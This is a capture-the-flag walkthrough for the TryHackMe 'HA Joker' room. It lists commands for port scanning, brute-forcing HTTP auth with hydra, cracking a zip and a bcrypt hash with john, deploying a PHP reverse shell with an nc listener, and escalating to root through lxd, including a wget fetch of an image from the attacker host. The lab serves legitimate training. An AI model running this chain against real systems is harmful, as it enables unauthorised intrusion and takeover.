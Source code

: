 # HA Joker CTF

**Room Link:** [https://tryhackme.com/room/jokerctf](https://tryhackme.com/room/jokerctf)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (623).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (624).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (626).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (625).png" alt=""><figcaption></figcaption></figure>



## TCP/8080 - HTTP

**Kali**

```
hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 -f $VICTIM http-get /
```

<figure><img src="../../.gitbook/assets/image (627).png" alt=""><figcaption></figcaption></figure>



wasn't finding it but should have found a backup.zip

**Kali**

```
nikto -id joker:hannah -h $VICTIM:8080
```

<figure><img src="../../.gitbook/assets/image (629).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
zip2john backup.zip > secure_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt secure_john.txt 
unzip backup.zip
Password: hannah
```

<figure><img src="../../.gitbook/assets/image (630).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cd db
cat joomladb.sql | grep admin
```

**Hash**

```
$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG
```

**Kali**

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (631).png" alt=""><figcaption></figcaption></figure>



**Browser**

```
Username: admin
Password: abcd1234
```

<figure><img src="../../.gitbook/assets/image (628).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (632).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php
```



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1234
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim**

```
id
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python2 -m SimpleHTTPServer 81
```



**Note:** The command lxd init was to resolve a storage pool area issue, it may not always be needed.

**Victim**

```
cd /tmp
wget http://$KALI:81/alpine-v3.13-x86_64-20210218_0139.tar.gz
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
lxd init
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

